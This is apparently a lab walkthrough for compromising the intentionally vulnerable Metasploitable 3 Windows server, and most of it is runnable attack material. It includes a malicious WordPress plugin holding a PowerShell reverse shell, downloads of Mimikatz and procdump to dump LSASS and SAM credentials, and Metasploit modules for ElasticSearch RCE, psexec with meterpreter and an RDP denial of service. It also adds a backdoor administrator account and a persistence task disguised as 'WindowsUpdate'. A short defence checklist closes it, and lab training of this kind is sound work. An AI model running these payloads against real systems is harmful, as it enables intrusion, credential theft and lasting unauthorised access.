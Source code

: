 # Metasploitable 3: Structured Approach to Exploitation

## Overview
This document provides a structured approach to exploiting the Metasploitable 3 Windows Server 2008 R2 machine, starting with initial access via WordPress and progressing through privilege escalation to full system compromise.

## Phase 1: Initial Access via WordPress

### Step 1: Create Malicious WordPress Plugin
On attacker machine (Parrot OS: 192.168.56.106):
```bash
mkdir WinRevShell
cd WinRevShell
cat > WinRevShell.php << 'EOF'
<?php
/*
Plugin Name: Win Reverse Shell
Description: Persistent interactive reverse shell for Windows WordPress lab
Version: 1.0
Author: pentest
*/

$ip = '192.168.56.106'; // Attacker IP
$port = 4444;

// PowerShell reverse shell command
$ps_command = "powershell -nop -c \"\$client = New-Object System.Net.Sockets.TCPClient('$ip',$port);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0,\$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()\"";

// Execute the reverse shell
exec($ps_command);

// Keep plugin active
while(true) {
    sleep(60);
}
?>
EOF

# Create zip file for upload
zip -r WinRevShell.zip WinRevShell/
```

### Step 2: Set Up Listener
```bash
# On Parrot OS (192.168.56.106)
socat TCP-LISTEN:4444 STDOUT
# Alternative: 
# nc -nvlp 4444
# rlwrap -cAr nc -nvlp 4444
```

### Step 3: Upload and Activate Plugin
1. Navigate to WordPress admin: http://192.168.56.107/wordpress/wp-admin/
2. Go to Plugins → Add New → Upload Plugin
3. Upload `WinRevShell.zip`
4. Activate the plugin

### Step 4: Verify Shell Access
After activation, you should receive a reverse shell:
```
PS C:\wamp\www\wordpress> whoami
wordpress\admin
```

## Phase 2: Privilege Escalation

### Initial Assessment with WinPEAS
Key findings from WinPEAS analysis:
- **WDigest Enabled**: Allows plaintext password extraction from LSASS
- **UAC Settings**: EnableLUA set to 0 (easier UAC bypass)
- **Cached Credentials**: cachedlogonscount is 10
- **LSA Protection**: Not enabled
- **No AV Detected**

### Method 1: Mimikatz Password Extraction
```bash
# On attacker machine (192.168.56.106)
wget https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip -O mimikatz.zip
unzip mimikatz.zip
python3 -m http.server 80

# On target (192.168.56.107)
cd C:\Windows\Temp
powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.56.106/mimikatz.exe', 'mimikatz.exe')"
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

### Method 2: Procdump + Mimikatz (If Detected)
```bash
# On target
powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.56.106/procdump.exe', 'procdump.exe')"
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp

# On attacker machine
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "exit"
```

### Method 3: Impacket Techniques
```bash
# On target, save registry hives
reg save hklm\sam sam.hiv
reg save hklm\system system.hiv
reg save hklm\security security.hiv

# On attacker, extract hashes
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hiv -system system.hiv LOCAL
```

## Phase 3: Alternative Exploitation Paths

### ElasticSearch Exploitation (CVE-2014-3120)
```bash
# Check ElasticSearch version
curl http://192.168.56.108:9200

# Metasploit exploitation
use exploit/multi/elasticsearch/script_mvel_rce
set RHOSTS 192.168.56.108
set LHOST 192.168.56.101
exploit
```

### SMB/psexec Exploitation
```bash
use exploit/windows/smb/psexec
set RHOSTS 192.168.56.108
set SMBUser vagrant
set SMBPass [password_from_mimikatz]
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.101
exploit
```

### MS12-020 RDP DoS (Port 3389)
```bash
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
set RHOSTS 192.168.56.108
exploit
```

## Phase 4: Post-Exploitation

### Credential Extraction
```bash
# With Meterpreter session
hashdump
run post/windows/gather/lsa_secrets

# With Mimikatz
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "lsadump::secrets" "sekurlsa::logonpasswords" "exit"
```

### Enable RDP Access
```bash
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
net user hacker Password123! /add
net localgroup administrators hacker /add
```

### Persistence
```bash
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\Temp\reverse_shell.exe" /sc onstart /ru SYSTEM
```

## Phase 5: Local Privilege Escalation Checks

### Using Metasploit's Local Exploit Suggester
```bash
run post/multi/recon/local_exploit_suggester
```

Vulnerable exploits identified:
- exploit/windows/local/bypassuac_comhijack
- exploit/windows/local/bypassuac_eventvwr  
- exploit/windows/local/cve_2019_1458_wizardopium
- exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move
- exploit/windows/local/ms14_058_track_popup_menu
- exploit/windows/local/ms15_051_client_copy_image
- exploit/windows/local/ms16_032_secondary_logon_handle_privesc
- exploit/windows/local/ms16_075_reflection
- exploit/windows/local/ms16_075_reflection_juicy

## Key Findings Summary

1. **Initial Access**: WordPress plugin upload vulnerability
2. **Privilege Escalation**: Multiple methods available due to misconfigurations
3. **Credential Exposure**: WDigest enabled allows plaintext password extraction
4. **Additional Services**: ElasticSearch vulnerable to RCE (CVE-2014-3120)
5. **RDP Vulnerability**: MS12-020 DoS vulnerability present
6. **Multiple Local Privesc**: Numerous local privilege escalation vectors available

## Recommendations for Defense

1. Disable WDigest authentication
2. Enable LSA protection
3. Implement proper WordPress file upload restrictions
4. Update ElasticSearch to latest version
5. Apply MS12-020 patch
6. Implement proper service permissions
7. Install and configure antivirus solution
8. Enable UAC with proper settings
9. Regularly audit scheduled tasks and services
10. Implement network segmentation to limit lateral movement

This structured approach demonstrates the critical importance of proper system hardening, regular patching, and security monitoring in Windows environments.